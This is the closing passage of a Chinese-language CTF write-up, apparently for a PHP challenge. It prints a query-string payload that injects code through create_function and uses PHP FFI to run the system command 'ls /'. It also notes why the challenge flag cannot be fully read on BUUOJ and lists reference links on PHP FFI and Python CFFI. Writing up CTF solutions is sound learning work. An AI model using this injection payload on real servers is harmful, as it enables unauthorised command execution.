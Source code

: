 ```
?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int php_exec(int type, char *cmd);");$ffi->php_exec(3,"ls /");/*
```

但是，这道题在buu复现不了，原因是uuid有32个字符，加上连字符有36位，再加上flag{}有42位，但是/readflag程序只允许读出37个字符，所以最后的5位是读不出来的（辣个唯一解可能是爆破的 我试着爆了一会 加延时得跑好久好久好久 放弃了

------

最近在刷buuoj，有望这个月内把50解以上的题做完捏

------

{{% spoiler "以下是本文中涉及到的 和我学习时看过的所有文章的链接🔗 每日感谢互联网的丰富资源（" %}}

[PHP RFC: Preloading](https://wiki.php.net/rfc/preload)  |  [PHP RFC: FFI - Foreign Function Interface](https://wiki.php.net/rfc/ffi)  |  [PHP RFC: New custom object serialization mechanism](https://wiki.php.net/rfc/custom_object_serialization)  |  [PHP FFI详解 - 一种全新的PHP扩展方式](https://www.laruence.com/2020/03/11/5475.html)

[Do You Hate How Slow Python Is? This Is How You Can Make It Run Faster!](https://towardsdatascience.com/do-you-hate-how-slow-python-is-this-is-how-you-can-make-it-run-faster-532468fe1583)  |  [Make Python Faster with CFFI Python Bindings](https://towardsdatascience.com/make-python-faster-with-cffi-python-bindings-eb5402bc35dd)

[CFFI documentation](https://cffi.readthedocs.io/en/latest/)  |  [ctypes documentation](https://docs.python.org/3/library/ctypes.html)

[Python cffi学习 ](https://www.cnblogs.com/ccxikka/p/9637545.html) |  [cffi-example: an example project showing how to use Python's CFFI](https://github.com/wolever/python-cffi-example)

[wp](https://mochazz.github.io/2019/05/21/RCTF2019Web%E9%A2%98%E8%A7%A3%E4%B9%8Bnextphp/#nextphp)  |  [wp2](http://www.lshhaisheng.com/2021/08/02/%E7%BB%95%E8%BF%87disable_function/)

{{% /spoiler %}}